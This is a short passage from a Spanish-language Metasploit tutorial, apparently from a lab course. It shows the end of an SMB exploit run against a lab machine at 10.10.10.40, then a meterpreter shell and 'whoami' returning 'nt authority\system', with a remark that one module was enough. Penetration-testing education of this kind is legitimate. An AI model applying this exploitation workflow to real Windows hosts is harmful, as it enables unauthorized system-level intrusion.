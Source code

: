 ```r

10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```

Ahora tenemos un shell en la máquina objetivo y podemos interactuar con él.

### MSF - Target Interaction

```r
C:\Windows\system32> whoami

whoami
nt authority\system
```

Este ha sido un ejemplo rápido y sencillo de cómo `msfconsole` puede ayudar rápidamente, pero sirve como un excelente ejemplo de cómo funciona el framework. Solo se necesitó un módulo sin ninguna selección de `payload`, `encoding` o `pivoting` entre sesiones o trabajos.
